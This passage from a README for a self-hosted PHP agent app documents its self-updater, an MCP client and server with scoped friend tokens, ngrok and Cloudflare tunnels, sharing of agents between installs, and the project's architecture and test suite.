- 🚧 **It asks whether it can write before it writes anything.** Every folder the release touches gets one throwaway probe file, and a refusal names the folder and stops there — nothing has been replaced, and nothing is half-installed. A release that **adds** a folder is not a locked one: the probe asks the deepest folder that exists, which is where `mkdir` creates the rest. Since **v449** `.github/` is not probed at all — CI workflows, issue templates and dependabot are repository metadata the app never reads, and on a copy deployed by root or by git they belong to another account than the one running PHP, so a release that edited them used to stop the whole update over a folder with no runtime effect.
- 🚑 **When a refusal names a real app folder**, the panel and `storage/updates/install.log` both carry the way through. Fastest is `php install-update.php` from a terminal **as the account that owns the files** — it installs what is already staged, so nothing downloads twice. Otherwise give the web server write access to that one folder: `sudo mkdir -p <folder>` when the release adds it, then `sudo chown --reference=<app folder> <folder>`, which copies the app folder's own owner so `www-data`, `apache`, `nginx` or a custom PHP-FPM pool never has to be guessed. A copy you cannot elevate on gets the release zip copied over by hand — `storage/` is the one folder that has to survive, and no installer, button or CLI, ever writes it. Windows has no `sudo` or `chown` to print: the account that owns the tree can already create the folder.
- 🛠️ **The install.** **Config → Updates → INSTALL UPDATE…** copies the staged release over the app's own files. It refuses `storage/`, `.git`, `node_modules`, `screenshots/` and `sandbox/` **before it looks at any file**, never writes over a file in place (new bytes land in a dotfile sibling and are `rename()`d over the target, so a reader sees the old file or the new one and never half of either), and **deletes nothing** — a file the release dropped simply stays.
- ↩️ **Always a way back.** Before the first write it copies the current tree to `storage/backups/<version>-<timestamp>/` with a `manifest.json` (path, size, sha256). **Config → Updates → ROLL BACK** restores it, and if the installed files report a different version than the release claimed, the installer **rolls itself back** and says so. Two rollback copies are kept, pruned oldest-first.
- 🖥️ **`install-update.php` — the way in when the app can't help.** `php install-update.php` installs what is staged, `--finish` swaps in anything an install had to defer, `--rollback` undoes it, `--status` reports what is staged and what the last run did. It loads **one file**, uses no autoloader, refuses to run over HTTP, and exists for two cases a button cannot cover: a Linux host where `www-data` cannot write the app folder, and a tree that a half-finished update already broke — the code that would fix it is inside that tree.
- 🪟 **One file cannot be swapped from inside the request that is running it.** On Windows the entry script (`api/index.php`) is held open for the life of the request, so the installer writes it as `.router-new-index.php` and journals it as **deferred**, finishes everything else, and hands the last swap to a generated script in `storage/updates/` that runs as its own process a second later. Nothing is ever deleted to make room, and if the handoff cannot happen the UI names the file and the exit (`install-update.php --finish`). A page load retries it too: `autoload.php` is one of the files an install replaces, so the retry runs on the new installer — the one whose PHP lookup works — and a stuck update finishes itself a second later. If it still cannot, **Config → Updates** opens with **1 file waiting — this update is unfinished**, names the file, and offers **FINISH THE UPDATE**; the section badge reads **UNFINISHED** whether or not it is expanded, so the panel never claims *up to date* while a file is still one rename short.
- 📓 **It says what it did.** `storage/updates/install.log` records every phase, and `install.json` carries the current one (`installing` / `done` / `failed` / `rolled-back`). Both are under `storage/`, so neither is reachable over HTTP.
- 🔐 **Your data is out of scope by construction.** The published copy **ships a default `storage/` folder**, so a plain "unzip over the app" would replace your config, token and provider keys with defaults. Every `storage/*` entry is refused at *extraction* time — before any diff exists — and `storage/` never appears in the comparison.
- 🧭 **What “not in this release” means.** Files on disk that the release doesn't contain (`cleancopy/`, screenshots, work you haven't pushed) are **listed, never deleted**.
- 🛡️ **The archive is treated as hostile.** `https` only, on GitHub's release hosts — checked before the request *and* again after redirects — with a 64 MB / 20 000-entry cap, and every entry name resolved by hand: `..`, absolute paths, drive letters and `stream://` wrappers are refused rather than written.
- 🗑️ **DISCARD** empties `storage/updates/` again; the download is ~11 MB and the staging copy goes with one click.
- 🧪 Covered by `tests/php/update.test.php`: entry-name refusals, wrapper stripping **before** the storage rule (the bug it was written for), the diff classifications, the source guard, and the CHANGELOG parsers (which line is the title, one bullet only as the summary, markdown stripped, truncation counted in **characters** so an em dash or emoji cannot make the response un-encodable, and the whole-entry reader behind *What's new* — lead-in split, nesting depth, and both caps).



---

## 🔌 MCP — connect **out** to other servers (client)

**Config → MCP Client.** Add any MCP server (stdio command + args, or an HTTP URL with headers). Its tools become available to your agents through `mcp_list` / `mcp_call`. Servers are operator-configured — a model can *call* them, never add one.

<details>
<summary>Config example and Windows PATH notes</summary>

```jsonc
// storage/config.json
"mcp": { "servers": [
  { "id": "files", "transport": "stdio",
    "command": "npx", "args": ["-y", "@modelcontextprotocol/server-filesystem", "/srv"],
    "env": { "GITHUB_TOKEN": "…" } },
  { "id": "internal", "transport": "http", "url": "https://mcp.example.com",
    "headers": { "Authorization": "Bearer …" } }
]}
```

On Windows, stdio servers inherit the process environment (including `PATH`, `ComSpec`, `APPDATA`, `TEMP` and the usual Node install directories), so `npx`/`node` work without a manual PATH. `env` overrides individual keys. HTTP servers that require a session get `initialize` + `Mcp-Session-Id` automatically when the first call says it needs one; stateless servers still use a single POST.

</details>

---
## 🖥️ MCP — let others connect **in** (server)



The mirror of the client: an operator can expose this install as a **remote MCP server**, so another person's MCP client — their own local model, Claude Desktop, Cursor — can call tools that run on the operator's machine.

<details>
<summary>Enable steps, token scopes and friend setup</summary>

### 🔧 Enable it (operator)
**Config → MCP Server**
1. Turn **Enable the MCP server** on.
2. Set a **scratch folder** — friends' file and command tools are jailed there, and a deny-all `.htaccess` is dropped in so nothing they write is web-served.
3. Optionally edit the **protected paths** list.
4. Add a **token per friend**, each with a scope: **read / write / exec** (and an optional IP allowlist). Tokens never expire; revoke one with a click. A token is shown **once** — when it is created, or when you press **ROTATE** — because the server keeps it and does not hand it back. Copy it then; if it is lost, ROTATE rather than guessing, and the old token stops working when you save.

The endpoint is **`POST /api/mcp-server`** (JSON-RPC 2.0), authenticated with `Authorization: Bearer <token>`.

### 🎚️ What a token decides
- **read** → `read_file`, `list_dir`, `glob_files`, `grep_code`, `stat`, `fetch_url`, `web_search`, `git_read`
- **write** → `write_file`, `edit_file`, `insert`, `apply_patch`, `multi_edit`
- **exec** → `exec`, `run_code`, `git_commit`

Scope is a **ceiling**, not a bypass: a call still runs through the same sandbox, allow/deny lists, interpreter levels and approvals. An un-allowed command queues in the **operator's** Pending-approvals list and the friend's call returns *"waiting for the operator"*. Every call is written to `storage/mcp.log`.

### 👋 How a friend connects
1. **Client supports remote MCP (HTTP)** — add a remote server at the URL with one header: `Authorization: Bearer <token>`.
2. **Client is stdio-only (e.g. Claude Desktop)** — bridge it with `mcp-remote`:
   ```bash
   npx -y mcp-remote https://YOUR-HOST/path/api/mcp-server \
     --header "Authorization: Bearer <token>"
   ```
3. **The friend runs their own copy of Loop Studio** — **Config → MCP Client → + ADD SERVER** (name, transport `http`, url, and a `headers` box with `Authorization: Bearer <token>`). Their agents then reach the operator's tools through `mcp_list` / `mcp_call`.

The operator hands over the **URL + that friend's token** — that pair is all their client needs.

### 🌐 Reach it from outside (tunnels)
Off-LAN friends reach the same endpoint through a reverse-proxy tunnel — no router configuration, and both tunnels can run at once against the same copy. The full story — the in-app card, both providers, install steps, and the friend URL — lives in [🌐 Tunnels](#-tunnels--take-the-mcp-server-off-lan).

</details>

---
---
## 🌐 Tunnels — take the MCP server off-LAN



*The Tunnels card: enable switch, provider picker, auto-detected port, reserved ngrok domain, binary-path overrides, SAVE / START / STOP — and the public URL with its friend-ready RPC path to copy.*

Off-LAN friends reach the MCP server through a reverse-proxy tunnel — no router configuration, no new dependencies, and both tunnels can run at once against the same copy. The **Config → Tunnels** card starts and stops them from inside the app; `tunnel.bat` / `./tunnel.sh` remain for the terminal.

<details>
<summary>Providers, ports, install steps, the friend URL, and how the app runs them</summary>

### 🖱️ From the card (recommended)
**Config → Tunnels.** Switch tunnels on, pick the provider, and press START — each public URL appears on the card with a Copy button and the friend-ready RPC path beside it. STOP ends them; the refresh button re-checks what is actually running. Nothing here starts on its own, and the app refuses to start what is not installed — telling you how to install it instead of failing quietly.

### 💻 From a terminal
`tunnel.bat [ngrok|cloudflare|both] [port]` on Windows (double-click for both on the auto-detected port); `./tunnel.sh` with the same arguments on Linux/macOS.

### 🔌 Port
Omit it and the port is auto-detected (the card reads the served port; the scripts read Apache's `Listen` line, else `8080`); pass it when the app runs elsewhere, e.g. `tunnel.bat both 8090`. A bare number is a port: `tunnel.bat 8090`.

### 📦 Installing the binaries — only when asked
`setup-xampp.bat -Tunnels` on Windows (winget, skipped when already present); `INSTALL_TUNNELS=1 ./start.sh` on Linux/macOS (into `tools/bin/`, no sudo, no package manager). The installers are opt-in on purpose: a tunnel is a public door into this machine, and the app never installs network-facing software unasked.

### 🌐 The two providers
- **ngrok** needs an authtoken once (`ngrok config add-authtoken <token>`, ~1 GB/month on the free tier). A reserved domain keeps the friend's saved URL stable across restarts: the card's domain field, `-NgrokDomain` on PowerShell, `NGROK_DOMAIN` in the environment on bash.
- **Cloudflare quick tunnel** needs no account and prints a random `*.trycloudflare.com` URL on every launch — the disposable second route next to ngrok's stable one.

### 👋 The friend URL
The same shape over either tunnel: `https://<tunnel-host>[/router]/api/mcp-server` (`/router` when Apache serves the app, bare path for `php -S`/`start.sh`) plus their `Authorization: Bearer <token>` header. That URL-plus-token pair is all their client needs. Nothing listening locally? The start refuses and says so — start the app first.

### 🔧 How the app runs them
`POST /sandbox/tunnels` (`start` / `stop` / `status` / `save`) spawns each tunnel's binary detached with its output captured to a log, waits up to ~25s for the daemon's own public-URL line, and kills a tunnel that never prints one — no orphan daemons with unknown addresses. Pids and URLs live in `storage/tunnels.json`, never in `config.json`, so backups and restores can't resurrect a dead tunnel. Every status re-checks the pid is alive, so a dead daemon reads as down and a stale URL is never shown. Operator-only: there is no agent tool for this, the switch defaults off, and every start and stop is written to the audit trail.

</details>

---
<p>
  
  
</p>

*Left: sharing — Config → MCP Server (enable, Mesh discovery, friend tokens with read/write scope and mesh-forwarding flag). Right: receiving — the server's graph card (advertise to peers, Shared agents → Install ⬇ or Use remotely 🌐, Discover mesh). Keys never travel; installs land inactive with a fresh id.*

---
## 🤝 Mesh — share agents between copies

**Two studios, one shared shelf of agents.** 🤝 Your copy lends agents to a friend's copy over the MCP server you already run — no accounts, no cloud, no new dependencies. They browse your roster from their network map, install a copy with one click — or chat with your agent *where it lives*, answering in their chat box on your meter. Whatever lands arrives **inactive, keyless, and freshly minted** — so nobody can spend anybody's money or overwrite anybody's agents. 📚🔑🚫

<details>
<summary>Both sides step by step, the safety rules, and troubleshooting</summary>

### 🗺️ The shape of it

```
┌──────────────┐  read token   ┌──────────────┐
│  🫵 YOUR copy │ ─────────────▶ │ 🙋 FRIEND'S   │
│  list_agents │   list + get  │  copy          │
│  get_agent   │ ◀──────────── │  graph card →  │
│  install_    │  write token  │  Shared agents │
│   agent      │  install +    │  → Install ⬇   │
│  remote_chat │  remote run   │  → Use remotely🌐│
└──────────────┘               └──────────────┘
   🔑 keys, 🌐 endpoints, 🐚 curl templates ❌ never cross
   installs land 😴 inactive with a fresh id + #code ✅
   remote replies stream into THEIR chat box, on YOUR meter ✅
```

Five tools on the MCP server you already have: `list_agents`, `get_agent` and `mesh_peers` ride the **read** scope, `install_agent` and `remote_chat` need **write**. Everything else about the server — sandbox, approvals, audit log — applies unchanged. Three switches govern the mesh, each opt-in: **share my agents** (a `read` token), **offer remote execution** (a `write` token), **forward mesh connections** (per-friend toggle, advertised but not yet executable — phase 2).

### 🫵 Side A — sharing (yours)

1. **Config → MCP Server** — switched on, as usual.
2. **Add a token** for your friend:
   - 🔍 **read** — they may browse cards and copy agents onto *their* copy, and ask `mesh_peers` who you can reach.
   - ✍️ **write** — *also* lets their side place agents onto *yours* via `install_agent`, and run your agents remotely via `remote_chat` (your meter runs). Only tick this for people you'd hand your keyboard to.
   - 🌐 **Allow mesh forwarding** — advertises that this friend may one day route through you (phase 2 executes it; phase 1 only publishes the permission).
   - Optional IP allowlist, one-click revoke / ROTATE any time.
3. **Mesh discovery** (Config → MCP Server, below the enable toggle) answers `mesh_peers` at all — off by default, like everything powerful here. And on each of YOUR outbound servers (their graph card → Advertise to my peers) choose which routes you tell your friends about.
4. **Send them two things privately** (chat, QR, USB stick — never a screenshot): the server URL `https://YOUR-HOST/router/api/mcp-server` and that friend's token (shown **once**).

### 🙋 Side B — receiving (theirs)

1. **Config → MCP Client → + ADD SERVER** — name it (e.g. `you`), transport `http`, the URL above, and one header: `Authorization: Bearer <token>`. Save, then **Check now** — the tool count now includes the three mesh tools.
2. Open the server's **node on the network map** → **Shared agents** → **List shared agents**. Cards show name, role, provider, model — nothing else, by design.
3. Pick one:
   - **Install** ⬇ — a copy lands in the **Agents tab, switched OFF** → set its provider/key → activate when ready.
   - **Use remotely** 🌐 — a live pointer lands instead (badge `🌐 via you`, no provider of its own). Activate it and chat: the question runs on YOUR copy and the reply appears in THEIR chat box.

Installed agents are **copies, not links** — editing yours later doesn't touch theirs until they reinstall. No spooky remote overwrites. 👻🚫

Remote agents never join Always-On ticks (their runner lives elsewhere), can't take file attachments, and answer one-shot — no streaming yet. Their history rides along for context; your memory, tools and file access stay home.

### 🛡️ What never crosses the wire

| 🧳 It travels | 🔒 It stays home |
| --- | --- |
| name, role, provider, model (cards) | 🔑 provider keys + per-agent key overrides |
| system prompt + guidance (defs) | 🌐 endpoint overrides |
| throttles, limits, memory settings | 🐚 curl / Python / Node templates (they can carry keys) |
| tool allow-lists | 🆔 your agent's id and `#code` — installs mint fresh ones |

Plus: installs are **forced inactive** with no standing goal, capped at 200 agents a copy, prompts truncated at 20,000 chars — a bloated or hostile share fails clean, and a refused install writes nothing.

### 🤖 Agents can mesh too — no clicks needed

Any agent allowed to call MCP servers can do the same through `mcp_call`:

```
mcp_call(server="you", tool="list_agents")                   # browse the shelf
mcp_call(server="you", tool="get_agent", args={id: "cmdr"})  # read the full def
```

With a **write** token the far side's agents can also place agents onto you — where they land inactive, awaiting your switch-on — and ask your agents questions through `remote_chat`, answered on your meter. Switch an agent OFF on your side and its remote use stops too: deactivation is the kill switch. Revoking the token cuts all of this instantly. 🎫✂️

### 🛰️ Seeing the wider mesh (phase 1 — discovery, no forwarded execution yet)

Tim connects to Bryce, Bryce connects to you, Tim and you never meet. Tim opens Bryce's card → **Discover mesh** → Bryce's copy lists its advertised outbound servers, asks each of them for *their* peers (up to 3 hops, loop-guarded by a visited list), and merges the answers:

```
Tim ──read token──▶ Bryce ──read token──▶ You ──▶ Dana
     mesh_peers{hops:2}  mesh_peers{hops:1, visited:[Tim, Bryce]}
     ◀── {studio: Bryce, peers: [{studio: You, hops: 1, via, forward…},
     ◀── {studio: Dana, hops: 2, via, forward…}]}
```

Every studio opts in independently: yours answers only with discovery on, lists only servers you ticked Advertise on, and your friends' copies apply the same rules with their own config. A dead hop degrades to a noted entry, never a failure; answers cap at 50 peers, 10 downstream dials, 3 hops. The `forward` flag on each entry is Bryce's promise about phase 2 — Tim can SEE Dana through Bryce, but cannot RUN anything there until forwarding executes and Dana issues Tim a grant.

### 🧯 If it sulks

| Symptom | Cause | Fix |
| --- | --- | --- |
| `401 invalid token` | wrong / rotated token, or pasted with whitespace | re-copy the one-time value (or ROTATE and re-send) |
| `the MCP server is disabled` | server toggle off on the sharing copy | Config → MCP Server → enable |
| `No agents shared yet` | sharing copy has no agents, or runs a pre-mesh build | check its Agents tab; update that copy to this branch |
| Install toast but no agent | local save failed (disk / permissions) | check `storage/state.json` is writable; the error names the cause |
| Remote agent "is unreachable" | server down, URL changed, or token revoked | check the MCP server is up and **Check now** passes |
| Remote agent "switched off" | you deactivated it on the sharing copy | switch it back on there — that's the kill switch working |
| Remote agent refuses files | attachments never cross the mesh | install a local copy to use files |

</details>

---
## 📱 Android & mobile

The UI is **mobile-first** — touch controls, a responsive layout, an icon rail on phones, and it works in the phone's browser right next to wireless-debugging tooling.

<details>
<summary>The Android correction: WebView, on-device PHP and PWA</summary>

> ⚠️ **Correction:** an earlier note claimed there would be no Android app because *"you can't put a PHP server into an Android app."* **That is false.** An Android build is a packaging exercise, not an impossibility:
>
> - 🧩 **Thin WebView shell** — package a tiny app whose WebView points at the hosted instance. The whole UI already runs in a mobile browser.
> - 📦 **PHP on-device** — PHP runs on Android via **Termux** (`pkg install php`, then `php -S 127.0.0.1:8080 serve.php`), **KSWEB**, or **AndroPHP**, so a fully local, offline build is possible too.
> - 🏠 **Installable PWA** — add the web UI to the home screen as a progressive web app.
>
> So: 📱 an Android version is on the table. The old "impossible" line is struck.

</details>

---
## 🧩 Architecture

```
/router/
├── index.html            # SPA entry (canonical)
├── api/
│   ├── index.php         # REST front controller (all routes)
│   └── lab.inc.php       # API Lab request runner
├── src/                  # PHP backend
│   ├── Config.php        # settings + models
│   ├── ModelManager.php  # relays + streaming
│   ├── Harness.php       # provider / tool-dialect registry
│   ├── Sandbox.php       # jail, files, exec, git, code, http
│   ├── Cdp.php           # hand-rolled WebSocket + DevTools Protocol client
│   ├── Browser.php       # detect / launch / drive Chrome or Edge
│   ├── Mcp.php           # MCP client
│   ├── McpServer.php     # MCP server
│   ├── SessionManager.php
│   ├── TopologyGraph.php
│   └── Audio.php
├── ui/
│   ├── js/               # app modules: store · api · stateSync · tools ·
│   │                     #   toolManifest · toolProtocol · harness · nativeTools ·
│   │                     #   apiPool · trace · perf · brainlab · alwaysOn · memory ·
│   │                     #   desktop2026 (the glass shell) · ifaceMode · drawerState
│   │   └── components/   # chat · sidebar · routingChart · browserView · topology3d/…
│   └── css/              # base · layout · chat · components · topology · desktop2026
├── tools/
│   ├── gen-harness.php   # generates ui/js/harness.data.js
│   └── cacert.pem
├── tests/
│   ├── run.mjs           # the whole suite: PHP, then JS
│   ├── php/              # 28 files: sandbox · programs · secrets · setupToken ·
│                         #   tls · update · mcp · mcpServer · mcpStdio · guards ·
│                         #   apacheGuards · nginxGuards · layers · docs  (run.php)
│   └── js/               # 31 files: context · curl · harness · ifaceMode ·
│                         #   latency · nativeTools · toolCalls · sandboxBinding ·
│                         #   rebindButton · localEndpoints   (run.mjs)
├── screenshots/
├── storage/              # JSON data (config, state, sessions) — git-ignored
├── serve.php             # php -S router (no Apache needed)
├── start.bat / start-php.bat / start.sh  # launchers
├── install-update.php     # update without the UI (--finish / --rollback)
├── setup-xampp.bat/.ps1  # one-click Apache + PHP (Windows)
├── setup-token.sh        # create / rotate the access token (+ storage guard)
├── nginx.example.conf    # deny storage/ + tests/ on nginx (copy into server{})
├── VERSION
├── CHANGELOG.md
└── README.md
```


## 🧪 Tests

> 🧰 **Optional dev tooling.** Nothing in `tests/` is loaded by the app or imported by the UI — the folder exists only to be run from a terminal, and deleting it changes nothing about how the app behaves. **The app itself stays plain PHP with no build or dependency step:** drag the folder onto a host and it runs. Node is needed only if *you* choose to run the JavaScript tests; `php tests/php/run.php` needs nothing beyond the `php` you already have. No `package.json`, no `node_modules`, nothing to install.
>
> 🔒 `tests/` is not needed at runtime, and **every serving mode refuses it**, the same way it refuses `storage/`: `serve.php` answers **403** for anything under `/tests` (and for a `storage`, `logs`, `tmp`, `sessions` or `tests` folder **at any depth**, so a copy of the app kept inside the web root cannot expose its own `config.json`), `tests/.htaccess` (which ships) plus the root `.htaccess`'s any-depth `RedirectMatch` deny it on Apache, and `nginx.example.conf` covers it for nginx in every folder, not just the root. **API routes are exempt in all three** — `/api/sessions` is the session *list*, not the `storage/sessions` folder, and no API route maps onto a path from disk. Leaving `tests/` out of a deploy is still the tidiest option — it holds no config, keys or tokens either way.

One command runs the whole suite:

```bash
node tests/run.mjs      # PHP first, then JS
```

Either half runs on its own, which is what you want while working on one of them:

| Command | What it runs |
| --- | --- |
| 🧪 `node tests/run.mjs` | Both suites, PHP then JS |
| 🐘 `php tests/php/run.php` | PHP only — sandbox, **desktop programs** (`programs.test.php`: the operator's list as the whole allowlist, the detached launch, binary-path matching, real kill verdicts and the un-forgeable trace), **masked secrets** (`secrets.test.php`: masks going out, restores coming back, and who may ask when there is no token), the **token recovery script** (`setupToken.test.php`), harness, MCP client/server, HTTP guards (`serve.php`, Apache `.htaccess`, and the nginx rules via PCRE), and the CSS/JS **layer audit** |
| 🟨 `node tests/js/run.mjs` | JS only — 31 files: context, curl, harness, interface mode, latency, native tools, tool calls and markup stripping, sandbox binding, the rebind button, backup sections, comms, rate governor, `localEndpoints`, direct-call truncation |
| 🌱 `php tests/freshClone.php` | **Both suites, in a fresh copy** of the tree in the temp dir — the same check a clone gets, run every time (needs `git`, which supplies the file list). `--head` clones the last commit instead of the working tree; `--keep` keeps the copy. Deleted on success, kept when something fails. Ends every run — pass or fail — with its measured total, split by phase: `took: 30.7s  (copy 0.9s, PHP 26.6s, JS 3.2s)` |
| 🛡️ `./tools/check-guards.sh` | The serving refusals against a live copy — `--serve` boots `serve.php` on a free port and checks this tree, or pass a URL; `--token` requires an authenticated `200` |

- **The layer audit is a stylesheet test.** `tests/php/layers.test.php` parses `ui/css/*.css` (and the handful of `z-index` values set from `ui/js` and `index.html`) and fails if any **surface** — panel, drawer, pane, menu — ties or outranks a dialog. Notices are exempt by name with a reason: the fatal banners, the boot splash, the CRT scanline overlay, toasts and the approval prompt, which must be visible over a dialog. It reads the dialog's number and the ladder comment in `modals.css` rather than hardcoding them, so moving the layer means updating both. It exists because dialogs once sat *below* the built-in Browser pane and an agent's ⋮ menu at 3000, and nothing failed.
- **Each test file is its own process**, exactly as if you had run it by hand, so one file's globals or a failed import cannot colour another's result — and **several run at the same time** (4 by default; `php tests/php/run.php --jobs 1` for one after another, `--jobs N` for a different width). Results are still printed in **file-name order**, whatever order they finish in, so two runs of the same tree read the same way and a failure's full output still sits under its own `FAIL` line. That is only safe because the two things the files used to share are gone: **the port each server binds** — a walk that starts from a number derived from the file's own process id ([tests/php/free-port.php](tests/php/free-port.php), required by the three files that start a server), rather than `tcp://127.0.0.1:0`, which hands the same port to two files that ask in the same moment and leaves one of them binding an occupied port or talking to the other one's server — and **the log each file writes** — `exec.log` and `mcp.log` are appends in the install's `storage/`, and a test that truncates the trace back to the size it found it at would delete a line another file was about to read, so each file is given a log directory of its own (`ROUTER_LOG_DIR`). One side effect worth having: the suites no longer write the operator's `storage/exec.log` or `storage/mcp.log` at all.
- **Naming is the registration.** A `*.test.mjs` in `tests/js/` or a `*.test.php` in `tests/php/` is picked up automatically — there is no list to update. Helpers (like `tests/php/mcp-mock-server.php`, which `mcp.test.php` spawns itself) simply don't use the `.test.` name.
